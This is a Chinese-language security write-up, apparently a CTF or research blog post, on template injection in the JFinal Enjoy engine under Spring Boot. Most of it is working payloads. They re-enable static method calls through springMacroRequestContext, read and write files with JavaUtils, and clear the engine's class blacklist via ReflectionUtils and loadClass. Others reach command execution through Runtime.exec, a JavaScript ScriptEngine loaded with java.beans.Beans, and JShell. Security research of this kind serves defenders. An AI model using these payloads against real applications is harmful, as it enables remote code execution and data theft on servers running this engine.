







Enjoy模板引擎是国产框架JFinal配套的，文档👉https://jfinal.com/doc/6-1

文档中声称`“在模板中可以直接与 java 代码通畅地交互”`

这对安全人员来说可是狂喜。大概过一遍文档，有几个值得注意的点

* 模板热加载

和其他模板引擎一样，为了方便开发时的调试以提高开发效率，Enjoy支持模板热加载，也就是不对模板解析结果进行缓存，每次都会重新读取模板文件来编译，通过如下配置

```java
engine.setDevMode(true);
```

* 属性访问调getter

EL表达式也支持点号调用getter特性

> field表达式取值优先次序，以user.name为例：
>
> * 若 user.getName() 存在，则优先调用
> * user 具有 public 修饰的 name 属性，则取 user.name 属性值
> * user 为Model、Record、Map的子类，调用 user.get("name")

* 静态属性/方法访问

 jfinal 5.0.2之后，默认”未启用“，需要添加如下配置

```java
engine.setStaticFieldExpression(true);
engine.setStaticMethodExpression(true);
```

`类名 + :: + 方法名(参数)`

* 输出指令

`#()`直接回显里面的表达式内容

* 赋值指令

`#set(x=yyyy)` 对变量进行赋值

* 包含指令

`#include("../../flag")`

`#render("../../flag")`

可以用这个直接读文件，传入的是相对模板目录的路径，跟less的`@import(inline) "../../flag"`一样

这里使用目前最新版本5.1.3

```xml
<dependency>
    <groupId>com.jfinal</groupId>
    <artifactId>enjoy</artifactId>
    <version>5.1.3</version>
</dependency>
```

# 开启静态方法调用

`SpringBoot`整合`Enjoy`模板引擎

```java
@Configuration
public class SpringBootConfig {
    @Bean(name = "jfinalViewResolver")
    public JFinalViewResolver getJFinalViewResolver() {
        JFinalViewResolver jfr = new JFinalViewResolver();

        jfr.setSuffix(".html");
        jfr.setContentType("text/html;charset=UTF-8");
        jfr.setOrder(0);
        jfr.setSessionInView(false);

        Engine engine  = JFinalViewResolver.engine;
        engine.setDevMode(true);
        engine.setToClassPathSourceFactory();

        return jfr;
    }
}
```

发现`JFinalViewResolver`是`AbstractTemplateViewResolver`的子类，这个模板视图解析抽象类对应的另一个类，`AbstractTemplateView`会在Model中放入一个Spring的宏变量。





`WebApplicationContext`不仅可以获取到`ServletContext`的引用，还可以获取到spring上下文，即可以访问到AOP容器中注册的Bean。

通过`springMacroRequestContext`获取注册的`JFinalViewResolver`，刚好其`engine`是public属性，拿到后再调用其public方法`setStaticMethodExpression`

```jsp
#(springMacroRequestContext.webApplicationContext.getBean('jfinalViewResolver').engine.setStaticMethodExpression(true))
```

```jsp
#(springMacroRequestContext.webApplicationContext.getBean('jfinalViewResolver').engine.setStaticFieldExpression(true))
```

# 黑名单绕过



静态方法调用前有个WAF，设置了类和方法的黑名单



把大部分常见的类和方法都禁掉了，但难免有漏网之鱼

## 读文件

```jsp
#set(x=com.sun.org.apache.xml.internal.security.utils.JavaUtils::getBytesFromFile('/flag'))
#((java.util.Base64::getEncoder()).encodeToString(x))
```

## 写文件

```jsp
#set(x="hacked".getBytes())
#set(y=(java.util.Base64::getDecoder()).decode('YWFhYQ=='))
#(com.sun.org.apache.xml.internal.security.utils.JavaUtils::writeBytesToFilename('/tmp/success',y))
```

## 清除黑名单

过滤了`removeForbiddenClass`和`removeForbiddenMethod`这两个方法，很容易想到通过反射来绕过，但同样`invoke`、`Method`也被过滤了，调用不了`Method#invoke`。`Enjoy`模板一般会搭配`SpringBoot`来使用，而`SpringBoot`内置了许多工具类，其中就有一个`ReflectionUtils`，封装了一系列反射有关的方法。

```java
public static Method findMethod(Class<?> clazz, String name, @Nullable Class<?>... paramTypes)
public static Object invokeMethod(Method method, @Nullable Object target, @Nullable Object... args)
```

完美绕开了`Enjoy`模板的黑名单

但还有一个问题，就是这里的参数需要为Class对象，`forName`、`Class`、`ClassLoader`、`Thread`等获取Class对象相关方法和类都被禁了，唯独没有禁`loadClass`，那我们只要拿到一个`ClassLoader`对象就能获取到Class对象了。不能实例化对象，只能通过静态方法来获取。主要有下面两种方法拿到`ClassLoader`对象

```java
// ClassLoader.getSystemClassLoader()
URLClassLoader.getSystemClassLoader()
```

```java
Thread thread = Thread.currentThread();
ClassLoader contextClassLoader = thread.getContextClassLoader();
```

第二种显然不行，`Thread`被ban了。

拿到后再调用`loadClass`来获取Class对象

```jsp
#set(methodKit=(java.net.URLClassLoader::getSystemClassLoader()).loadClass("com.jfinal.template.expr.ast.MethodKit"))
#set(runTime=(java.net.URLClassLoader::getSystemClassLoader()).loadClass("java.lang.Runtime"))
#set(clazz=(java.net.URLClassLoader::getSystemClassLoader()).loadClass("java.lang.Class"))
#set(meth=org.springframework.util.ReflectionUtils::findMethod(methodKit,'removeForbiddenClass',clazz))
#(org.springframework.util.ReflectionUtils::invokeMethod(meth,null,runTime))
```

```jsp
#((java.lang.Runtime::getRuntime()).exec('calc'))
```

## js RCE

`com.jfinal.kit.ReflectKit#newInstance`能够实例化一个类

```java
public static Object newInstance(Class<?> clazz) {
    try {
        return clazz.newInstance();
    } catch (ReflectiveOperationException e) {
        throw new RuntimeException(e);
    }
}
```

```jsp
#set(clazz=(java.net.URLClassLoader::getSystemClassLoader()).loadClass("javax.script.ScriptEngineManager"))
#set(engine=com.jfinal.kit.ReflectKit::newInstance(clazz))
#(engine.getEngineByName('js').eval('java.lang.Runtime.getRuntime().exec("calc")'))
```

好吧，高高兴兴地发现了一个可以用的方法，因为方法名被ban了。。。

后面找到了JDK自带的一个类`java.beans.Beans`



`instantiate`首先会把类名当成序列化对象，加上`.ser`后缀，`ClassLoader.getSystemResourceAsStream`获取后进行反序列化。

或找不到序列化对象，再尝试直接实例化类。





```java
#set(engine=java.beans.Beans::instantiate(null, "javax.script.ScriptEngineManager"))
#(engine.getEngineByName('js').eval('java.lang.Runtime.getRuntime().exec("calc")'))
```

## JShell RCE

JDK9引入`jdk.jshell.JShell`

```java
#((jdk.jshell.JShell::create()).eval('Runtime.getRuntime().exec("calc")'))
```

